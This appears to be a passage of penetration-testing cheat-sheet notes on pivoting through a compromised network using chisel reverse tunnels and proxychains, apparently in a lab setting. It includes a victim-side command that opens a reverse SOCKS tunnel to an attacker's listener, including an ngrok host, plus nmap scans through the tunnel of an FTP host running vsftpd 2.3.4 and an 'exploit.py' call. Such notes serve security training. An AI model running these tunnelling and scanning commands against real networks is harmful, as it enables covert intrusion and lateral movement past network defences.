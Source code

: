 ```bash
# On PRIVATE network
./chisel.elf server -p 8080 --reverse

# On PUBLIC network (General way)
./chisel server --host localhost -p <PORT_LISTENER_NCAT> --reverse -v
```

#### Victim

```bash
# On PRIVATE network + FULL Tunneling (SOCKS)
.\chisel.exe client 192.168.45.218:8080 R:socks

# On PUBLIC network + PARTIAL port Tunneling
./chisel client X.tcp.eu.ngrok.io:YYYYY R:<PORT_TOMAP>:127.0.0.1:<PORT_TOMAP>
```


```bash
# CHECK Tunneling
nmap -p <PORT_TOMAP> 127.0.0.1
```

#### Host : Proxychains4 with SOCKS5

- https://github.com/Andrei-Masilevich/proxychains4

- or `proxychains.conf` 

```bash
sudo nano /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

#### Host - Proxychains-ng

```bash
yay -S proxychains-ng
nano proxychains.conf

#ecrire
#proxy_dns
#tcp_read_time_out 200
#tcp_connect_time_out 200
#[ProxyList]
#socks5 127.0.0.1 1080

proxychains -q nmap -p21 -Pn 192.168.66.63 -sV
```

```bash
#vm2 sur enp0s8 192.168.66.124/24
#vm1 sur enp0s9 192.168.56.102/24
proxychains -q nmap -p22 -Pn 192.168.66.00/24 -vv
proxychains -q nmap -p- -Pn 192.168.66.63 -vv

#PORT   STATE SERVICE VERSION
#21/tcp open  ftp     vsftpd 2.3.4

proxychains -q nmap -p21 -Pn 192.168.66.63 -sV
proxychains ftp 192.168.66.63
proxychains exploit.py
```

